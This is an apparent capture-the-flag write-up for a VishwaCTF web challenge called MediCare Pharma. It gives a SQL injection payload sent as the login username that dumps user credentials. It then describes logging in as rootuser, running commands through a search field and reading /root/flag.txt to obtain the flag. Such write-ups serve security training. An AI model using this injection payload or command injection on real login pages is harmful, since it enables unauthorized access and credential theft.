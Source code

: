## MediCare Pharma

On sending the request to the page with the query
`username=test'+OR+username+like+'%'+--+-&password=test`

We get the following results back

Username : medicare ,Password : 5trongp455!
Username : janice ,Password : 5trongp455@
Username : rootuser ,Password : 5trongp455%
Username : pharmaowner ,Password : 5trongp455$

We logged in as rootuser and found out that we can run commands in the search field.

We then found the flag in /root/flag.txt

>FLAG: VishwaCTF{d1g1t4l_p41n_di5p4tch3d_th4nk5_f0r_sh0pp1ng_with_M3diC4re_Ph4rm4}